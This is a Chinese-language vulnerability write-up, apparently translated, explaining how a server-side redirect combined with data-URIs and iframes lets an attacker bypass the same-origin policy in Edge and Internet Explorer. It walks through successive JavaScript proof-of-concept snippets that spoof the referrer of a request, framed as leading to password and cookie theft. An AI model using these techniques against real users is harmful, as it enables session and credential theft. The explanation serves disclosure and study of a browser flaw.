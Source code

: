 <br>

**引言**

一个data-uri加上服务器端重定向，攻击者就可以绕过网站的同源策略（SOP），而这也就意味着各种各样的漏洞即将出现。此时，攻击者将能够窃取到用户的明文密码、获取Cookie、以及嗅探用户的传输数据等等。

之所以会出现这种安全问题，是因为如果一个窗口的启动器是其本身，那么我们可以强制让这个窗口改变其本身所在的位置。比如说，一个加载了恶意网站evil.com的标签可以将一个Paypal标签更改为bankofamerica.com，而BankofAmerica会将PayPal信息作为其referrer属性（而不是evel.com）。如果我们将这种思想应用到目标页面的iframes之中，再配合上data-uri属性的话，我们就可以实现一次完整的同源策略绕过了。此时，我们只需要通过非常简单的注入攻击就可以轻而易举地拿到目标用户的密码了。

<br>

**问题分析**

当我们尝试修改服务器端重定向的标签位置时，Edge和IE浏览器将无法确定请求的原始发送方。我们的这项技术需要向页面注入iframe，接下来我们一起回顾一下这项技术，然后再用这项技术欺骗页面（whatsmyreferrer.com）的referrer属性，并让目标网站认为我们发送的请求来自于microsoft.com。

伪造请求发送方的一些注意事项：

1.利用microsoft.com的服务器端重定向打开一个新的窗口。

2.阻止目标线程运行，直到microsoft开始加载（我们在这里需要使用到警告弹窗）。

3.当重定向发生之后，将目标位置设置为whatsmyreferrer.com。

4.操作完成。

第三步是我们完成攻击的关键步骤，在第三步操作中，我们要设置最终的location，为了达到这个目的，我们必须使用目标窗口自身的引用才可以实现设置。比如说，下面这种设置方法就不会起效：

```
w = window.open("redir.php?URL=https://www.microsoft.com", "WIN");
w.setTimeout('alert("Wait until the redirection starts")');
w.location.href = "https://www.whatismyreferer.com"; // Does not work
```

我们需要让目标窗口来修改它自己的URL。因此，我们可以利用setTimeout来完成设置：

```
w = window.open("redir.php?URL=https://www.microsoft.com", "WIN");
w.myself = w; // Self reference saved in the new window
w.setTimeout('alert("Wait until the redirection starts")'+
'myself.location.href = "https://www.whatismyreferer.com"');
```

上面这段代码虽然看起来没什么问题，但是在重定向的时候Edge浏览器会将myself变量（自引用）屏蔽掉。不过别担心，我们也有办法来防止这种情况的发生：我们可以将引用放到任意一个内置的JS对象之中，例如Math。接下来，我们将myself变量放到Math对象之中。代码如下：

```
w = window.open("redir.php?URL=https://www.microsoft.com", "WIN");
w.Math.myself = w; // Now in the Math object!
// Crashes below
w.setTimeout('alert("Wait until the redirection starts")'+
'Math.myself.location.href = "https://www.whatismyreferer.com"');
```

我们可以看到，上面这段代码出现了崩溃（无法利用）。不过别担心，我们也有方法来避免这种崩溃的发生：在window.open中加入javascript代码。在此，我们并不打算尝试去利用这个崩溃，而是要尝试避免崩溃的出现。下面这种方法将会间接运行我们的代码，而且不会发生任何的崩溃：

```
// Not crashing anymore!
w = window.open("redir.php?URL=https://www.microsoft.com", "WIN");
w.Math.myself = w;
window.open("javascript:" +
               "alert('Wait until the redirection starts');" +
               "Math.myself.location = 'https://www.whatismyreferer.com'",
"WIN");
```
